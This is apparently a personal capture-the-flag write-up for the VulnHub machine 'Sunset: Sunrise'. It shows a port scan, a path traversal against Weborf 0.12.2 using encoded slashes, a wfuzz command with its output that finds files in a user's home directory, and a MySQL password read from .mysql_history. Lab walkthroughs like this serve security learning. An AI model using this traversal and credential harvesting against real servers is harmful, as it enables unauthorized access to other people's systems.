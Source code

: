 # Sunset: Sunrise

https://www.vulnhub.com/entry/sunset-sunrise,406/

## Reconnaisance

A quick nmap over all ports only revealed 22, 80, 3306 and 8080 open. No FTP this time.

Port 80 is hosting some sort of default nginx file, while 8080 seems to be hosting the var/www folder using something called Weborf/0.12.2. It showed html/ and when I clicked through, it contained `index.nginx-debian.html` that showed the same content as port 80.

Looking up Weborf with that version, it is vulnerable to path traversal when using encoding slashes, and testing this proved I could navigate throughout the machine.

## Exploring and wfuzz

I browsed around the machine, but couldn't find anything. I could reach the weborf home directory, but couldn't see anything in there. Following a hint, I decided to use wfuzz on it.

The path to show the directory was `http://192.168.53.7:8080/..%2f..%2fhome%2fweborf%2f`, and a useful wordlist for local user directory fuzzing is `/usr/share/wordlists/dirb/common.txt` on kali.

The following wfuzz command found several files: `wfuzz -w /usr/share/wordlists/dirb/common.txt --sc 200 http://192.168.53.7:8080/..%2f..%2fhome%2fweborf%2fFUZZ`:

```
********************************************************
* Wfuzz 2.4 - The Web Fuzzer                           *
********************************************************

Target: http://192.168.53.7:8080/..%2f..%2fhome%2fweborf%2fFUZZ
Total requests: 4614

===================================================================
ID           Response   Lines    Word     Chars       Payload                                                                                                                          
===================================================================

000000001:   200        2 L      18 W     439 Ch      ""                                                                                                                               
000000003:   200        113 L    483 W    3526 Ch     ".bashrc"                                                                                                                        
000000016:   200        2 L      8 W      83 Ch       ".mysql_history"                                                                                                                 
000000019:   200        27 L     130 W    807 Ch      ".profile"                                                                                                                       

Total time: 13.47158
Processed Requests: 4614
Filtered Requests: 4610
Requests/sec.: 342.4987
```

Opening .mysql_history revealed:

```
show databases;
ALTER USER 'weborf'@'localhost' IDENTIFIED BY 'iheartrainbows44'; 
```
